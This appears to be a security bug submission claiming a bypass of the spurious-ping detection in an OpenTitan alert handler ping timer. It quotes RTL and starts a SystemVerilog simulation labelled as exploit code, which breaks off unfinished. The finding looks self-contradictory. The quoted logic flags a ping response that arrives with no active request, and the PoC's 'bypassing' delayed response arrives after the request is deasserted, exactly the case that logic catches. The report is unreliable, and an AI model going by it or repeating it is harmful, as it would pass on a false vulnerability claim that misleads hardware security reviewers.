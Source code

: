 # Bug Submission #3 - Alert Handler Ping Bypass

## Security feature bypassed
Alert handler ping mechanism and spurious response detection

## Finding
The alert handler ping timer contains a critical vulnerability in its spurious ping detection logic that allows attackers to bypass security monitoring. The issue occurs in the spurious ping detection implementation where the logic only examines current ping state without considering timing context or sequence validation.

The vulnerable code in `alert_handler_ping_timer.sv` lines 285-291 implements spurious ping detection using simple boolean logic:

```systemverilog
prim_buf u_prim_buf_spurious_alert_ping (
  .in_i(|(alert_ping_ok_i & ~alert_ping_req_o)),
  .out_o(spurious_alert_ping)
);
```

This detection mechanism is insufficient because it only checks if a ping response arrived without a corresponding request at the exact same clock cycle, but doesn't validate timing windows or detect delayed/replayed responses.

## Location or code reference
**File**: `./hw/ip_templates/alert_handler/rtl/alert_handler_ping_timer.sv`  
**Line**: 285-291, 338-339

**Exploit code**:
```systemverilog
// Proof-of-concept exploit for alert handler ping bypass
module alert_ping_bypass_exploit;
  
  logic clk, rst_n;
  logic alert_ping_req;
  logic alert_ping_ok;
  logic spurious_detected;
  
  // Simulate the vulnerable ping detection logic
  assign spurious_detected = (alert_ping_ok & ~alert_ping_req);
  
  initial begin
    $display("=== Alert Handler Ping Bypass Exploit ===");
    
    // Initialize
    clk = 0;
    rst_n = 1;
    alert_ping_req = 0;
    alert_ping_ok = 0;
    
    // Step 1: Wait for legitimate ping request
    #100;
    alert_ping_req = 1;
    $display("Legitimate ping request sent");
    
    // Step 2: Delay response by one cycle to avoid immediate detection
    #10;
    alert_ping_req = 0;  // Request ends
    
    // Step 3: Send delayed response - this bypasses spurious detection
    #5;
```